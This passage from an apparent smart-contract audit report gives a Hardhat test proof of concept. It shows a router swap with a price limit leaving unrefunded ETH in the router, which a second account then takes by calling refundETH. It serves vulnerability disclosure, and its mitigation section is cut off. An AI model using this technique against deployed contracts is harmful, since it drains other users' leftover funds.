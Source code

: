 The below PoC reproduces this scenario: 
```js 
// router-v1/test/Router.ts 
//   describe("#swap exact in", () => { 
it("doesn't refund ETH [AUDIT]", async () => { 
  let pool: string = await getEthBPool(0.05, 2); 
 
  const preEthBalance = await ethBalances(); 
  const prePoolBalance = await balances(pool); 
  const preOwnerBalance = await balances(await owner.getAddress()); 
 
   // User swaps ETH for token B and sets a limit price. 
   await router.exactInputSingle({ 
     tokenIn: weth9.address, 
     tokenOut: tokenB.address, 
     pool: pool, 
     recipient: await owner.getAddress(), 
     deadline: maxDeadline, 
     amountIn: floatToFixed(1), 
     amountOutMinimum: 0, 
     sqrtPriceLimitD18: "1077931889220708752" // (beforePoolPrice + afterPoolPrice) / 2 
   }, 
     { value: floatToFixed(1) } 
   ); 
  
   const postPoolBalance = await balances(pool); 
   const postEthBalance = await ethBalances(); 
   const postOwnerBalance = await balances(await owner.getAddress()); 
  
   // User has spent the entire input amount (1 ETH). 
   expect(postEthBalance.owner - preEthBalance.owner).to.be.approximately( 
     -1, 
     0.001 
   ); 
  
   // User has bought some tokens B. The amount wasn't paid by the entire 1 ETH because the 
   // limit price has interrupted the swap. 
   expect(postOwnerBalance.tokenB - preOwnerBalance.tokenB).to.eq(0.41609887980257554); 
  
   // The remaining input amount has been left in the router and wasn't refunded. 
   expect(postEthBalance.router - preEthBalance.router).to.eq(0.49373912843213397); 
  
   // A MEV bot immediately withdraws the ETH remained from the swap. 
   const preMEVBotBalance = await ethers.provider.getBalance(await addr1.getAddress()); 
   await router.connect(addr1).refundETH(); 
   const postMEVBotBalance = await ethers.provider.getBalance(await addr1.getAddress()); 
  
   expect(postMEVBotBalance.sub(preMEVBotBalance).toString()).to.eq("493710755432133969"); 
 }); 
``` 

### Recommended Mitigation Steps 
